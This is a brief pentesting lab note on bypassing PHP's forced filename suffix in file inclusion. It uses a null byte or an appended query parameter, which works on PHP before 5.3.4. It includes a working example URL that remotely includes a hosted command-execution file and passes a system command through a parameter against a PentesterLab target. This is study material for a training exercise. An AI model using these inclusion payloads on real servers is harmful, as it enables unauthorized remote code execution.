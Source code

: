 # Null Bytes and `&blah=` / `?blah=`

We can bypass PHP forcing a suffix down our throats by using any of these tags after our custom filename.

```ad-warning
This only works up to PHP `5.3.4`
```

Example:

```url
http://ptl-94fb4b8d-48c67394.libcurl.so/?page=https://assets.pentesterlab.com/test_include_system.txt%00&c=/usr/local/bin/score%20e6206710-c2c4-4704-869e-888e9947486e
```

Here we bypass with a nullbyte